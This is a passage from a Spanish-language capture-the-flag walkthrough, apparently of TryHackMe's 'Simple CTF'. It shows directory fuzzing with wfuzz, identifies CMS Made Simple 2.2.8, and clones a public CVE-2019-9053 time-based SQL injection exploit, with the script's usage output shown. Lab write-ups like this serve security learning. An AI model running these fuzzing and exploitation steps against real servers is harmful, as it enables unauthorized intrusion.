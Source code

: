 ```bash
=====================================================================

000004553:   200        126 L    1182 W     19993 Ch    "simple"                                                                                                                    
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 115.7430
Processed Requests: 6140
Filtered Requests: 6139
Requests/sec.: 53.04854
```

Vemos que se tiene el recurso **simple**, vamos a echarle un  ojo:

![](/assets/images/thm-simplectf/simplectf.png)

Vemos que nos encontramos frente a un CMS (Gestor de contenido) y que se tiene la versión 2.2.8; por lo que podrimos buscar algun posible exploit:
- [CMS Made Simple](https://www.exploit-db.com/exploits/46635)
Para nuestro, utilizaremos el exploit en la plataforma de Github [CVE-2019-9053](https://github.com/e-renna/CVE-2019-9053):

```bash
❯ git clone https://github.com/e-renna/CVE-2019-9053
Cloning into 'CVE-2019-9053'...
remote: Enumerating objects: 23, done.
remote: Counting objects: 100% (23/23), done.
remote: Compressing objects: 100% (20/20), done.
remote: Total 23 (delta 5), reused 5 (delta 1), pack-reused 0
Receiving objects: 100% (23/23), 7.56 KiB | 7.56 MiB/s, done.
Resolving deltas: 100% (5/5), done.
❯ cd CVE-2019-9053
❯ python3 exploit.py
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u http://target-uri
[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
```
